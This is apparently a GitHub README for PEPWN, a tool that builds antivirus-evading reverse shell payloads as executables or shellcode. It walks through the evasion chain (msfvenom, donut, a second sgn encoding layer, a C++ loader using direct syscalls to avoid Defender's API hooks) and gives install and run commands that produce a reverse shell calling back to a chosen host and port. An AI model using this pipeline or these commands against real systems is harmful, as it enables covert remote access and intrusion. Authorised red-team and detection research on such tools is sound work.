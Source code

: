 # PEPWN
PEPWN is a multi-chained tool that has a goal to generate an undetectable reverse shell payload in different formats (PE, shellcode). The payload is stageless and it works without the need of Metasploit Handler, it just needs a TCP listener (using netcat).


## Overview

>The creation of the payload in PEPWN is composed of 5 steps:

- [x] It generates an exe payload using msfvenom with the given IP and PORT and saves it in the /tmp directory.
- [x] It uses the [DONUT](https://github.com/TheWover/donut/) project. That will convert the generated EXE payload and extract shellcode from it. DONUT is just a project to facilitate extracting shellcodes from executable binaries
- [x] Using the same project DONUT, the tool will apply an encoding logic on the generated payload. But the logic implemented by DONUT is going to get statically detectable because it's using a static pattern of encryption/encoding with a static key. That's why I used a second layer of encoding.
- [x] Apply 2nd layer of encoding using [sgn](https://github.com/egebalci/sgn/). sgn encodes shellcodes using LSFR algorithm with random key in every compilation.
- [x] Transfers it into a shellcode format of use ex: (base64, hex string, and raw data), or create exe file that triggers the shellcode using syscalls.

If the user chooses to create exe file, the tool prepares a c++ file that invokes the shellcode with using syscalls instead of dll calls. For example instead of using "VirtualAlloc" dll call, it uses "NtAllocateVirtualMemory" syscall because the defender can easilly hook dll calls and detect the call to "VirtualAlloc" and consider it as malicious action.

## Installation

>Go to /root directory 

```
git clone https://github.com/0xx7/PEPWN.git
```
Once you download the project, build the dependencies using the following command, however make sure you are running as root:
```
./build.sh
```
Then, to run it with the manual/options add -H  
```
./wrapper -H
```
Example:

```
./wrapper.sh -f 1 -h 127.0.0.1 -p 4444
```
This command will create an EXE stageless reverse shell payload that connects back to 127.0.0.1 in port 4444. 

## Documentation

Usage:``` ./wrapper.sh <OPTIONS> ```
 
 OPTIONS are:
 
 **-f** : format/Mode (1 for .exe PE file <DEFAULT> ; 2 for shellcode)
 
 **-t** : type of shellcode. 1 for raw data ; 2 for base64encoded data ; 3 for big endian hex encoded string. (only if format is 2 otherwise this will be ignored)
 
 **-h** : host/ip/domain of the listener
 
 **-p** : port of the listener
 
 **-H** : help documentation
 
 Example: ./wrapper.sh -f 1 -h 127.0.0.1 -p 4444


## Usage tutorial 

https://youtu.be/SYriAv_FPAg



